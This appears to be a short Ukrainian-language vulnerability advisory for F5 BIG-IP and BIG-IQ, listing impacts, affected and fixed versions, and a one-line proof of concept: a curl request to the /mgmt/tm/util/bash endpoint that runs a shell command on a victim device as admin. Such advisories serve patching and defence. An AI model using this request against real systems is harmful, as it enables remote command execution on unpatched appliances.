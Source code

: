 <languages   />

Небезпека вразливості
---------------------

-   Виконайте будь-яку системну команду
-   Створення або видалення файлів
-   Відключити послугу

Постраждала версія
------------------

    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  16.x    16.0.0 – 16.0.1     16.0.1.1
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  15.x    15.1.0 – 15.1.2     15.1.2.1
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  14.x    14.1.0 – 14.1.3     14.1.4
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  13.x    13.1.0 – 13.1.3     13.1.3.6
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  12.x    12.1.0 – 12.1.5     12.1.5.3*
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  11.x    None    Not applicable
    BIG-IQ Centralized Management   8.x     None    8.0.0
    BIG-IQ Centralized Management   7.x     7.1.0, 7.0.0    7.1.0.3, 7.0.0.2
    BIG-IQ Centralized Management   6.x     6.0.0 – 6.1.0   None

POC
---

    curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'